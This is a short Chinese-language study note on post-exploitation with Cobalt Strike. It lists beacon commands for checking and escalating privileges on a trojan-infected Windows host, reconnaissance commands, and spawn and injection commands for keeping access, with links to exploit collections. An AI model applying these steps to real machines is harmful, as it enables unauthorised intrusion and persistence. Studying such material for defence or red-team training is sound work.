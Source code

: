 

# [提权漏洞](https://www.bilibili.com/video/BV1Md4y1A7Di/?)

## 查看权限

在<code>Cobalt Strike</code>中获取中木马的用户相关信息：

~~~  shell
getuid //获取用户ID
getprivs //获取木马进程拥有的权限
getsystem //获取WIN系统的system权限

shell whoami //获取用户信息
shell net user //获取用户信息
shell net localgroup administrators //获取用户组
~~~



## 提升权限

+ 本地提权一般都用的<code>CVE</code>漏洞，可通过搜索现成的 <code>DLL</code> 动态链接库、<code>Cobalt Strike</code>插件或者 <code>Metasploit</code> 插件拿来试试，如果没有可尝试编写代码等方式



# [漏洞扫描](https://www.bilibili.com/video/BV1dD4y1z7Ep/?spm_id_from=333.880.my_history.page.click&vd_source=1e325091774aa31c4dcd65d8667c69de)

~~~ shell
run systeminfo //查看中毒电脑的系统、补丁等信息
~~~

+ 本地提权一般都用的<code>CVE</code>漏洞，可通过搜索现成的 <code>DLL</code> 动态链接库、<code>Cobalt Strike</code>插件或者 <code>Metasploit</code> 插件拿来试试，如果没有可尝试编写代码等方式

~~~ python
漏洞集合：
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/lyshark/Windows-exploits
https://github.com/bitsadmin/wesng
https://github.com/n1nj4sec/pupy
~~~



# [权限维持](https://www.bilibili.com/video/BV1Ca41197H3/?spm_id_from=333.999.0.0)

~~~ shell
spawn [listener_name] //在目标机启动一个监听器类型的木马
run dll32 //重启一个新木马连接本机服务器
spawnu //在另外一个进程启动一个新木马,新木马是另一个进程的子进程;如果另一个进程终止则新木马也会被终止，同样如果另一个进程运行则新木马也运行
spawnas //作为另一个用户启动新木马
spawnto //在进程里注入木马进程
~~~

![CS_spawn1](./image/CS_spawn1.PNG)

![CS_spawn2](./image/CS_spawn2.PNG)



[Windows提权基础](https://zhuanlan.zhihu.com/p/572730623)

[Linux 提权原理及10种提权姿势](https://www.freebuf.com/articles/system/257457.html)

[ 如何在内网中提升权限](https://www.freebuf.com/articles/web/381088.html)

[Android的root提权漏洞](https://blog.csdn.net/tangsilian/article/details/77916056)

